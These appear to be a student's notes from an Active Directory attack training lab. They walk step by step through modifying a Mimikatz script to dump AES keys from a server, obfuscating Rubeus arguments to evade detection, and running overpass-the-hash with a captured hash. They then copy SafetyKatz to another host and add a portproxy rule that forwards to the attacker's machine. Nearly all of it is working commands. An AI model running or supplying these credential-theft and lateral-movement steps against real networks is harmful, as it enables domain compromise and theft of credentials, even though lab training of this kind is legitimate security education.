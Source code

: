 	Also, we cannot run scripts using dot sourcing (. .\Invoke-Mimi.ps1) because of the Constrained Language Mode. So, we must modify Invoke-Mimi.ps1 to include the function call in the script itself and transfer the modified script (Invoke-MimiEx.ps1) to the target server.
==**Create Invoke-MimiEx.ps1**==
- Create a copy of Invoke-Mimi.ps1 and rename it to Invoke-MimiEx.ps1.
- Open Invoke-MimiEx.ps1 in PowerShell ISE (Right click on it and click Edit).
- Add "Invoke-Mimi -Command '"sekurlsa::ekeys"' " (without quotes) to the end of the file

then On student machine run the following command from a PowerShell session
```
Copy-Item C:\AD\Tools\Invoke-MimiEx.ps1 \\dcorp-adminsrv.dollarcorp.moneycorp.local\c$\'Program Files'
```
run the modified mimikatz script. 
```
.\Invoke-MimiEx.ps1
```
vola !!!

We find the credentials of the srvadmin, appadmin and websvc users. ( aes 256 hash)
In another session, use C:\AD\Tools\ArgSplit.bat
```
C:\AD\Tools\ArgSplit.bat
asktgt
RUN these one by one below
set "z=t"
set "y=g"
set "x=t"
set "w=k"
set "v=s"
set "u=a"
set "Pwn=%u%%v%%w%%x%%y%%z%"
```
then 
```
echo %Pwn%
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args %Pwn% /user:srvadmin /aes256:145019659e1da3fb150ed94d510eb770276cfbd0cbd834a4ac331f2effe1dbb4 /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```
WE get CMD session with srvadmin privs!!!
then check if srvadmin has admin privileges on any other machine.
```
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
. C:\AD\Tools\Find-PSRemotingLocalAdminAccess.ps1
Find-PSRemotingLocalAdminAccess -Domain dollarcorp.moneycorp.local -Verbose
```
we find that we have access to dcorp-mgmt
we use safetykatz to extract creds (in the same cmd ession where we have srvadmin, run)
```
echo F | xcopy C:\AD\Tools\Loader.exe \\dcorp-mgmt\C$\Users\Public\Loader.exe
echo F | xcopy C:\AD\Tools\Safety.bat \\dcorp-mgmt\C$\Users\Public\Safety.bat
```
extract creds by (this is a port forward rule so the system thinks its connecting to itself but actually its forwarding to us)
```
$null | winrs -r:dcorp-mgmt "netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=172.16.100.x"
```
then
```
winrs -r:dcorp-mgmt C:\Users\Public\Safety.bat
```
then we find credentials AES256 and go for overpassthehash attack using rebeus

---